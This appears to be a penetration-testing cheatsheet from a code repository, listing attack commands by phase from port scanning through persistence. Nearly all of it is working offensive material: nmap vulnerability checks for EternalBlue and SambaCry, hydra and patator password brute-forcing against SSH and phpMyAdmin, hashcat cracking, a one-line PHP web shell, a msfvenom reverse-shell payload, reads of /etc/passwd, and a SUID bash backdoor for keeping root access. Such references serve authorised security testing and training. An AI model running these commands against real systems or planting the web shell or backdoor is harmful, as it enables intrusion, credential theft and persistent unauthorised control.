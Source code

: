 # Penetration Testing Cheatsheet

## Reconnaissance
### Ports
```bash
sudo nmap $TARGET -sS -sU -oN scans/$TARGET-nmap-initial
sudo nmap $TARGET -sS -sU -p- -oN scans/$TARGET-nmap-complete
```

## Enumeration
### Service Versions
```bash
sudo nmap $TARGET -sV -sC $(print-open-ports-from-nmap-scan scans/$NAME-nmap-complete) -oN scans/$NAME-nmap-versions
```

### Operating System
```bash
sudo nmap $TARGET -O -oN scans/$NAME-nmap-os
```

#### FTP
```bash
cd loot
touch README.too # create a file
ftp $TARGET 21 # login using anonymous:anonymous
put README.too # upload file created above (i.e. check if we have write privileges)
ls
binary 
get file.txt # download a file (i.e. check if we have read privileges)
mget * # download everything
exit
```

#### SSH
```bash
hydra -l root -P /usr/share/wordlists/rockyou.txt  ssh://10.11.12.13
```

#### SMTP
```bash
sudo nmap $TARGET -p25 --script smtp-commands -oN scans/$NAME-nmap-scripts-smtp-commands
```

```bash
sudo nmap $TARGET -p25 --script smtp-enum-users --script-args smtp-enum-users.methods={VRFY,EXPN,RCPT} -oN scans/$NAME-nmap-scripts-smtp-enum-users
```

```bash
smtp-user-enum -M VRFY -U /usr/share/wordlists/metasploit/unix_users.txt -t $TARGET
```

Automated enumeration of exploitable SMTP vulnerabilities.
```bash
sudo nmap $TARGET -p25 --script smtp-vuln* -oN scans/mailman-nmap-scripts-smtp-vuln
# replace the lines above with the actual scan results
```

### HTTP
```bash
sudo nmap $TARGET -p80 --script http-shellshock -oN scans/$NAME-nmap-scripts-http-shellshock-80
```

```bash
dirb http://$TARGET:80 /usr/share/wordlists/dirb/big.txt -z10 -o scans/$NAME-dirb-big-80
```

```bash
dirsearch -u $TARGET:$PORT -o $FULLPATH/$NAME-dirsearch-80
```

```bash
nikto -h $TARGET -p $PORT -T 2 -Format txt -o scans/$NAME-nikto-misconfig-80
```

### RPC
```bash
rpcclient -U '' $TARGET
srvinfo
netshareenum
```

### NetBIOS
```bash
nbtscan $TARGET
```

### SMB
The following SMB shares were discovered using Smbclient.
```bash
smbclient -L $TARGET
```

The SMB shares discovered have the following permissions.
```bash
smbmap -H $TARGET
```

Download files.
```bash
cd loot
smbclient \\\\$TARGET\\$SHARE
prompt
mget *
```

```bash
# check if vulnerable to EternalBlue
sudo nmap $TARGET -p445 --script smb-vuln-ms17-010 -oN scans/$NAME-nmap-scripts-smb-vuln-ms17-010
```

The target is NOT vulnerable to SambaCry.
```bash
# check if vulnerable to SambaCry
sudo nmap $TARGET -p445 --script smb-vuln-cve-2017-7494 --script-args smb-vuln-cve-2017-7494.check-version -oN scans/$NAME-nmap-scripts-smb-vuln-cve-2017-7494
```

### SQL
```bash
mysql -u $USER -h $TARGET
```

### RDP
```bash
sudo nmap $TARGET -p3389 --script rdp-ntlm-info -oN scans/$NAME-nmap-scripts-rdp-ntlm-info
```

```bash
rdesktop -u administrator $TARGET
```

### Postgres
```bash
psql -U postgres -p 5437 -h $TARGET # postgres:postgres
SELECT pg_ls_dir('/');
```

## Gaining Access
### Password Guessing  
#### Default Credentials
```bash
# anonymous:anonymous
# guest:guest
# admin:admin
# admin:adminadmin
```

#### Hydra
```bash
hydra -l root -P /usr/share/wordlists/rockyou.txt $TARGET http-post-form "/phpmyadmin/index.php?:pma_username=^USER^&pma_password=^PASS^:Cannot|without"
```

#### Patator
```bash
patator http_fuzz url=http://$TARGET/$LOGIN method=POST body='username=FILE0&password=FILE1' 0=usernames.txt 1=/usr/share/wordlists/rockyout.txt -x ignore:fgrep=Unauthorized
```

#### Hashcat
```hash
# modes - SHA256: 1400
# attacks - Dictionary: 0
hashcat -m $MODE -a $ATTACK /path/to/hashes.txt /usr/share/wordlists/rockyou.txt 
hashcat -m 1400 -a 0 /path/to/hashes.txt /usr/share/wordlists/rockyou.txt 
```

### Remote File Inclusion
```bash
# find a way to upload a PHP command shell
vim cmd.php
<?php echo shell_exec($_GET['cmd']); ?>
```

### Reverse Shell
```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=$TARGET LPORT=$PORT -f elf -o rshell.elf
```

## Maintaining Access

### Privilege Escalation
#### Linux
```bash
whoami
uname -a
dpkg -l # debian
rpm -qa # red hat
cat /etc/passwd
find / -perm -u=s -type f 2> /dev/null
cat /etc/crontab
ps aux | grep -v "\[" | grep root
```

#### Windows
```bash
whoami
whoami /priv
net user
systeminfo
dir c:\
wmic service get name,startname
cd "c:\program files"
cd "c:\program files (x86)"
wmic service get name,pathname,startname | findstr "Program Files"
cacls *.exe
```

### Persistence
#### Rootbash
Credit: Tib3rius
```bash
# as root, create a copy of BASH and then set the SUID-bit
# to resume root-access execute the new binary using -p
cp /bin/bash /tmp/bash; chown root /tmp/bash; chmod u+s /tmp/bash; chmod o+x /tmp/bash
/tmp/bash -p
```